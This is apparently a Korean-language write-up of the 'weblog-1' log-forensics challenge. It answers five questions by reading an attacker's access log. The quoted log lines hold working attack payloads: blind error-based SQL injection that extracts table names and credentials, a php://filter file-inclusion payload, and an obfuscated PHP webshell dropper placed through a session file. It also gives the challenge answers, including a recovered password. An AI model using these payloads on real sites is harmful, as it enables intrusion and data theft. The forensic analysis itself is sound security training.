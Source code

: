## weblog-1
---

주어진 파일에 보면 access 파일이 있는데 로그가 기록되어 있다.

이를 토대로 5개의 문제를 풀면 된다.

<br><br>

### Level 0
---

```
Q: 공격자에게 탈취된 admin 계정의 PW를 입력해주세요.
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

<br>

로그를 보면 login.php에서 시도를 하다가 실패해서 board.php로 이동한다.

이동한 다음 search 매개변수에 값을 넣어서 시도하다가 안되서 sort 매개변수로 시도를 한다.

그런데 sort 매개변수는 값을 그대로 받아들이기 때문에 공격자는 여기서 database명을 뽑아내려고 시도한다.

공격자는 if문을 통해 query가 true이면 문법 에러를 일으켜서 확인한다. 

500 에러가 일어남을 확인할 수 있다.

<br>

아래의 로그는 database 명의 첫 글자인 s를 알아낸 로그 기록이다. 

database 명은 simple_board임을 config.php에서 확인할 수 있다.

<br>

```
172.17.0.1 - - [02/Jun/2020:09:11:09 +0000] "GET /board.php?sort=if(ord(substr(database(),%201,1))=115,%20(select%201%20union%20select%202),%200) HTTP/1.1" 500 1192
```

<br>

그 다음 시간 상으로 ```[02/Jun/2020:09:21:34 +0000]``` 때 기록된 로그부터는 information_schema.columns 에서 테이블, 컬럼 명을 추출하려는 로그가 기록되어 있다.

공격자가 첫 글자를 추출했다. 

<br>

```
172.17.0.1 - - [02/Jun/2020:09:22:01 +0000] "GET /board.php?sort=if(ord(substr((select%20group_concat(TABLE_NAME,0x3a,COLUMN_NAME)%20from%20information_schema.columns%20where%20TABLE_SCHEMA=database()),%201,1))=98,%20(select%201%20union%20select%202),%200) HTTP/1.1" 500 1192
```

<br>

테이블명의 첫 글자는 b이다.

다른 코드를 보면은 테이블명이 board, 컬럼 이름이 idx, title, contents, writer가 있음을 알 수 있다.

공격자가 뽑아낸 테이블, 컬럼명은 아래와 같다.

```board:idx,board:title,board:contents,board:writer,users:idx,users:username,users:password,users:level```

<br>

다음은 ```[02/Jun/2020:09:50:05 +0000]``` 이 시간에 기록된 로그부터는 users 테이블의 user,password 컬럼 값들을 추출하는 로그가 기록되어 있다.

<br>

```
172.17.0.1 - - [02/Jun/2020:09:50:05 +0000] "GET /board.php?sort=if(ord(substr((select%20group_concat(username,0x3a,password)%20from%20users),%201,1))=32,%20(select%201%20union%20select%202),%200) HTTP/1.1" 200 841
```

<br>

여기서 성공한 로그(500 에러가 난 로그)를 살펴보면 admin의 비밀번호는 ```Th1s_1s_Adm1n_P@SS```

<br><br>

### Level 1
---

```
Q: 공격자가 config.php 코드를 추출하는데 사용한 페이로드를 입력해주세요.
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

<br>

거의 밑부분의 로그를 보면 아래와 같은 로그가 있다.

<br>

```
172.17.0.1 - - [02/Jun/2020:09:54:18 +0000] "GET /admin/?page=php://filter/convert.base64-encode/resource=../config.php HTTP/1.1" 200 986 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```

<br>

응답코드를 보면 200이다. 

따라서 답은 ```php://filter/convert.base64-encode/resource=../config.php``` 이다.

<br><br>

### Level 2
---

```
Q: LFI 취약점을 통해 코드 실행 공격에 사용된 파일의 전체 경로를 입력해주세요. (파일 이름을 포함한 전체 경로)
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

<br>

로그를 보면 아래와 같은 로그들이 있다.

<br>

```
172.17.0.1 - - [02/Jun/2020:09:55:16 +0000] "GET /admin/?page=memo.php&memo=%3C?php%20function%20m($l,$T=0){$K=date(%27Y-m-d%27);$_=strlen($l);$__=strlen($K);for($i=0;$i%3C$_;$i%2b%2b){for($j=0;$j%3C$__;%20$j%2b%2b){if($T){$l[$i]=$K[$j]^$l[$i];}else{$l[$i]=$l[$i]^$K[$j];}}}return%20$l;}%20m(%27bmha[tqp[gkjpajpw%27)(m(%27%2brev%2bsss%2blpih%2bqthke`w%2bmiecaw*tlt%27),m(%278;tlt$lae`av,%26LPPT%2b5*5$040$Jkp$Bkqj`%26-?w}wpai,%20[CAP_%26g%26Y-?%27));%20?%3E HTTP/1.1" 200 1098 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```

<br>

```
172.17.0.1 - - [02/Jun/2020:09:55:39 +0000] "GET /admin/?page=/var/lib/php/sessions/sess_ag4l8a5tbv8bkgqe9b9ull5732 HTTP/1.1" 200 735 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```

<br>

```/admin/memo.php```에 가보면 memo라는 세션의 값을 memo 매개변수를 통해 입력받는다. 

따라서 답은 ```/var/lib/php/sessions/sess_ag4l8a5tbv8bkgqe9b9ull5732```

<br><br>

### Level 3
---

```
Q: 생성된 웹쉘의 경로를 입력해주세요. (파일 이름을 포함한 전체 경로)
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

<br>

Level 2에서 본 로그를 보면 php 코드가 있다.

php 코드를 보면 K 변수에 date 함수가 사용되었다.

K 변수에 해당 로그의 날짜인 ```2020-06-02```를 넣어서 코드를 실행시켜주면 에러가 뜨는데 에러 중에 아래와 같은 내용이 있다.

<br>

```
File(/var/www/html/uploads/images.php) is not within the allowed path(s)
```

<br>

따라서 답은 ```/var/www/html/uploads/images.php```이다.

<br><br>

### Level 4
---

```
Q: 생성된 웹쉘을 통해 가장 처음으로 실행된 명령어를 입력해주세요.
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

<br>

```
172.17.0.1 - - [02/Jun/2020:09:56:32 +0000] "GET /uploads/images.php?c=whoami HTTP/1.1" 404 490 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```

<br>

로그를 보면 ```whoami```라고 써져있다.

따라서 답은 ```whoami```이다.

